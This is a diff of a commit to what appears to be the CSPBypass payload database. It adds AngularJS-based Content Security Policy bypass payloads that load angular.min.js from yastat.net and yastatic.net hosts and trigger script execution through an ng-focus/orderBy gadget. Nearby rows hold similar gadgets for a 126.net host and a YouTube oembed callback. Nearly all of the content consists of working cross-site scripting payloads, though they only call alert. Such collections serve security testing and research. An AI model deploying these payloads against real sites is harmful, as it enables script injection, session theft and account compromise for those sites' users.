

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Add AngularJS bypasses for yastat.net and yastatic.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -85 +85,5 @@ www.youtube.com	<script src="https://www.youtube.com/oembed?callback=alert(1)"><
 yuedust.yuedu.126.net	<body ng-app ng-csp><script src="//yuedust.yuedu.126.net/js/components/angular/angular.js"></script><div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{ [1].reduce(value.alert, 1); }}</div></div></div></body>
+yastat.net	<body ng-app ng-csp><script src="https://yastat.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+yastatic.net	<body ng-app ng-csp><script src="https://yastatic.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+www.yastat.net	<body ng-app ng-csp><script src="https://www.yastat.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
+www.yastatic.net	<body ng-app ng-csp><script src="https://www.yastatic.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
